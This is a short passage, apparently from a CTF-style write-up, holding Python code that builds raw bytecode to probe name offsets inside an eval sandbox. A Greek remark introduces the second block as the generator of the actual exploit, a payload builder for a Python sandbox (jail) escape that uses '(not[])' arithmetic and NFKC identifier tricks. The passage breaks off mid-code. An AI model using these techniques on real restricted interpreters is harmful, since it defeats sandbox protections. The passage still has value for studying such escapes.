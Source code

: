 ```python
code = [
*([opmap['EXTENDED_ARG'], n // 256]
if n // 256 != 0 else []),
opmap['LOAD_NAME'], n % 256,
opmap['RETURN_VALUE'], 0
]

c = CodeType(
0, 0, 0, 0, 0, 0,
bytes(code),
(), (), (), '<sandbox>', '<eval>', 0, b'', ()
)

ret = eval(c, {'__builtins__': MockBuiltins()})
if ret:
print(f'{n}: {ret}')

# for i in $(seq 0 10000); do python find.py $i ; done1234567891011121314151617181920212223242526272829303132
```
Και το παρακάτω είναι για τη δημιουργία του πραγματικού εκμεταλλευτή Python.
```python
import sys
import unicodedata


class Generator:
# get numner
def __call__(self, num):
if num == 0:
return '(not[[]])'
return '(' + ('(not[])+' * num)[:-1] + ')'

# get string
def __getattribute__(self, name):
try:
offset = None.__dir__().index(name)
return f'keys[{self(offset)}]'
except ValueError:
offset = None.__class__.__dir__(None.__class__).index(name)
return f'keys2[{self(offset)}]'


_ = Generator()

names = []
chr_code = 0
for x in range(4700):
while True:
chr_code += 1
char = unicodedata.normalize('NFKC', chr(chr_code))
if char.isidentifier() and char not in names:
names.append(char)
break

offsets = {
"__delitem__": 2800,
"__getattribute__": 2850,
'__dir__': 4693,
'__repr__': 2128,
}

variables = ('keys', 'keys2', 'None_', 'NoneType',
```